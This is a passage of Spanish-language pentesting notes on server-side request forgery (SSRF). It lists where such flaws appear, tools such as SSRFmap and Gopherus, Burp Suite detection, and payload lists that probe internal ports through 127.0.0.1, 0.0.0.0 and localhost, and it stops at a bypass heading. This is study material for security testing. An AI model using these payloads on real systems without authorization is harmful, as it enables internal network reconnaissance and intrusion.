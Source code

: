 Por lo general, podemos encontrar vulnerabilidades SSRF en aplicaciones que obtienen recursos remotos. Al buscar vulnerabilidades SSRF, debemos buscar:

-   Partes de solicitudes HTTP, incluidas las URL
-   Importación de archivos como HTML, PDF, imágenes, etc.
-   Conexiones de servidor remoto para obtener datos
-   Importaciones de especificaciones de API
-   Tableros que incluyen ping y funcionalidades similares para verificar los estados del servidor

## HERRAMIENTAS

- [SSRFmap - https://github.com/swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)
- [Gopherus - https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)
- [See-SURF - https://github.com/In3tinct/See-SURF](https://github.com/In3tinct/See-SURF)
- [SSRF Sheriff - https://github.com/teknogeek/ssrf-sheriff](https://github.com/teknogeek/ssrf-sheriff)

## BURPSUITE SCAN

Burpsuite active scan detecta posibles ataques de SSRF y los rporta de la siguiente manera:

![[Pasted image 20230203145437.png]]

## PAYLOADS

Puede que desde un input de la pagina o desde burpsuite tu puedes probar lo siguiente. Enumeracion de puertos internos de la maquina:

```bash
127.0.0.1:1
127.0.0.1:2
127.0.0.1:3
127.0.0.1:4
127.0.0.1:5
...
127.0.0.1:<port>
```

Puedes hacer un ataque de fuerza bruta con burpsuite mediante el intruder.

Otra forma

```bash
http://0.0.0.0:80
http://0.0.0.0:443
http://0.0.0.0:22

http://localhost:80
http://localhost:443
http://localhost:22
```

Bypass using HTTPS
